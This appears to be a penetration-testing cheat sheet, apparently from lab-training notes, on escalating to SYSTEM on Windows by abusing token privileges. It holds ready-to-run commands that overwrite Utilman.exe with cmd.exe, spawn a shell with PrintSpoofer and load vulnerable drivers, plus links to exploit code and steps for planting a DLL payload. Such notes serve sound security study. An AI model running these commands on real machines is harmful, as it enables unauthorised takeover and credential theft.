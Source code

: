 # Exploitable privileges

## SeBackup

Allows an user to read  of ownership or permissions. This permission can be exploited to [ dump the SAM and SECURITY files](../active-directory/local-credentials.md#manual) and crack them to obtain plaintext credentials

## SeTakeOwnership / SeRestore

Allows an user to gain ownership over any any element of the system including files and registry keys. This privilege allows an attacker to replace any executable running as a SYSTEM service with a malicious program to execute commands as an elevated user.

### Utilman.exe exploit

```
takeown /f C:\Windows\System32\Utilman.exe
icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
copy cmd.exe C:\Windows\System32\Utilman.exe
```

After locking and unlocking the account we will be greeted with a SYSTEM shell.

## SeImpersonate / SeAssignPrimaryToken

Allows an user to impersonate and spawn processes under the context of other users on the machine. Can be exploited with [Juicy Potato](juicy-potato.md) and similar techniques.

### printSpooler.exe exploit

Download the appropriate exe file from [here](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0). Then run the following command to obtain a SYSTEM shell

```
PrintSpoofer.exe -i -c cmd
```

## SeLoadDriver

Allows to load arbitrary drivers. Can be exploited by loading drivers with known vulnerabilities. in order to load a service in memory download and compile the following [exploit](https://github.com/TarlogicSecurity/EoPLoadDriver) and invoke it as follows

```
.\EOPLOADDRIVER.exe System\CurrentControlSet\MyService <path to sys file>
```

Exploitable drivers

* [szkg64.sys](https://www.exploit-db.com/exploits/45401)
* [Capcom.sys](https://github.com/tandasat/ExploitCapcom)

## SeManageVolume

Allows to manage permissions on volumes. Can be exploited to change ownership of all files under C:\ to the current user. The following steps allow to run a payload under SYSTEM user

1. Download compile and execute the PoC [here](https://github.com/xct/SeManageVolumeAbuse/blob/main/SeManageVolumeAbuse/SeManageVolumeAbuse.cpp)
2. Write a custom DLL to C:\Windows\System32\wbem\tzres.dll
3. Trigger the payload under SYSTEM by executing `systeminfo`



